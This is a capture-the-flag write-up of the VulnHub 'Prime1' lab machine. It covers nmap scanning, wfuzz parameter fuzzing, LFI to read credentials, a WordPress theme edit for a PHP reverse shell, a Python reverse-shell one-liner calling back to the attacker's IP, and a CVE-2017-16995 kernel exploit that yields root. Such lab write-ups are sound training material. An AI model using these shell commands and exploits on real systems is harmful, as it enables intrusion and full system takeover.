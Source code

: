 ```yaml
---
layout : post
title: Prime1 Writeup
image : prime-1.png
date: 2021-07-22 10:18 +0530
tags: [WordPress Exploitation ,Kernel Exploit 4.10.0-28-generic , Parameter Fuzzing , LFI ] 
---
```


In this walkThrough we'll exploit this machine using wordpress , but need to enumerate hard to get the wordpress creds , and for PE this machine is vulnerable to Kernal exploit , experienced the rabbit holes , at Bruteforcing the victor password , and once weget into machine the is sudo executable but not at all used to get root shell  

# Nmap

```
nmap -sCV -p- -vvv 10.0.2.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 03:02 BST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Initiating Ping Scan at 03:02
Scanning 10.0.2.104 [2 ports]
Completed Ping Scan at 03:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:02
Completed Parallel DNS resolution of 1 host. at 03:02, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:02
Scanning 10.0.2.104 [65535 ports]
Discovered open port 22/tcp on 10.0.2.104
Discovered open port 80/tcp on 10.0.2.104
Completed Connect Scan at 03:02, 31.15s elapsed (65535 total ports)
Initiating Service scan at 03:02
Scanning 2 services on 10.0.2.104
Completed Service scan at 03:02, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.0.2.104.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Nmap scan report for 10.0.2.104
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-07-22 03:02:02 BST for 38s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.96 seconds

```

# Enumeration 

Web Enumeration 

using drib , we found secret.txt

![]({{site.baseurl}}/img/vulnhub/prime1/text.png)

so from above hint lets start fuzzing the parameter on php pages

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 --hc 404 http://10.0.2.104/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.2.104/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"  
```

so we find that file a paremeter , now lets fuzz for any lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/location.png)


thwn we can movw to image.php there we'll fuzz for lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/etc.png)

yes now we have the right lfi , and also it mentioned that there is a password file at /home/saket directory 

![]({{site.baseurl}}/img/vulnhub/prime1/lfi2.png)

now we have the passwd , lets try to use for wordpress 

# Exploitation 

now its easy to get into machine via wordpress

lets inject the php code into a file which returns us a reverse shell

![]({{site.baseurl}}/img/vulnhub/prime1/secret.png)

need to curl the phpfile to get a reverseshell

```
curl http://10.0.2.104/wordpress/wp-content/themes/twentynineteen/secret.php
```

nice we get a reverse shell

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.104] 43204
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:10:13 up  1:43,  1 user,  load average: 0.05, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-gy tty7     :0               21:10    2:04m  2.74s  0.22s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export RHOST="10.0.2.93";export RPORT=5555;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# PrivilageEsclation 

Kernal exploit 

```

uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

this version is vulnerable to kernal exploit 

[Here is the link to the kernal exploit ](https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995)

```
www-data@ubuntu:/tmp$ gcc explit.c -o exploit
gcc explit.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff92c47b659200
[*] Leaking sock struct from ffff92c47745f800
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff92c4789396c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff92c4789396c0
[*] credentials patched, launching shell...
# whoami
whoami
root

```